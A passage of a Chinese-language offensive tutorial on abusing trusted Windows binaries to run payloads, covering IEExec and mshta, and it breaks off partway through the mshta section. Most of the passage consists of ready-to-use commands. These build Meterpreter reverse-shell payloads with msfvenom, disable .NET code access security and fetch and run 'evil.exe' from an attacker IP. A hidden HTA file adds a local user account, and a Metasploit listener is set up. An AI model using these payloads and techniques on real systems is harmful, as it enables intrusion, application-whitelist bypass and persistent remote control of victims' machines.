 IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。

先在攻击机生成Payload：

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe
```

使用管理员身份打开cmd，分别运行下面两条命令。

```bash
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off

C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe
```





### 11.mshta

mshta用于执行`.hta`文件，而hta是`HTML Applocation`的缩写，也就是HTML应用程序。

而hta中也支持VBS。所以我们可以利用hta来下载文件。

**1.生成payload.hta**

run.hta内容如下：

```html
<HTML> 
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <HEAD> 
        <script language="VBScript"> 
            Window.ReSizeTo 0, 0 Window.moveTo -2000,-2000 Set objShell = CreateObject("Wscript.Shell") objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令 self.close 
        </script> 
        <body> demo </body> 
    </HEAD> 
</HTML>
```

或者参考这个文章生成hta:https://www.cnblogs.com/backlion/p/10491616.html

方法1：MSFVenom

```bash
# 先生成payload
msfvenom -p windows/meterpreter/reverse_tcp lhost=121.36.37.235 lport=2222 -f hta-psh > shell.hta


# msf监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit

```
